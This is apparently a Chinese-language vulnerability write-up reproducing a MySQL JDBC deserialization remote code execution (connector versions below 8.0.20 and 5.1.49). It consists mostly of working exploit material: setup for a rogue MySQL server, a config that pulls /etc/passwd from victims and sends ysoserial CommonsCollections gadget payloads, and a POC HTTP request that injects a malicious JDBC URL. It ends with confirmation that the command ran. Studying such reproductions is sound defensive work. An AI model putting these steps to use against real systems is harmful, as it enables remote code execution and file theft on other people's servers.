



# jdbc RCE

## 漏洞描述

JDBC SHOW SESSION STATUS RCE

Version: 
  JDBC < 8.0.20
       < 5.1.49

## writeup

- 好用的 Mysql Rogue Server，本次复现使用此工具

```
https://github.com/rmb122/rogue_mysql_server
```

编译

```
go build main.go
```

下载 ysoserial-0.0.6-SNAPSHOT-all.jar 放到工具根目录，名字保持和config.yaml一致即可

- 配置 config.yaml

```
host: 0.0.0.0
port: 3306
version_string: "10.4.13-MariaDB-log"

file_list: ["/etc/passwd"]
save_path: ./loot
always_read: false

auth: true
users:
  - root: root
  - root: password

jdbc_exploit: true
always_exploit: true
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc6: ["java", "-jar", "ysoserial.jar", "CommonsCollections6", 'touch /tmp/cc6']
  cc7: ["java", "-jar", "ysoserial.jar", "CommonsCollections7", 'touch /tmp/cc7']
```

- 运行 ./main，等待jdbc连接



- POC

```
POST /test.jsp HTTP/1.1
Host: 10.68.56.56:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Length: 221

jdbc=jdbc%3amysql%3a//10.68.56.56%3a3306/test%3fconnectionAttributes%3dt%3acc7%26autoDeserialize%3dtrue%26statementInterceptors%3dcom.mysql.jdbc.interceptors.ServerStatusDiffInterceptor%26user%3droot%26password%3dpassword
```

## 复现结果

- Mysql Rogue Server接受到连接并且成功send payload



- 成功执行 touch /tmp/cc7


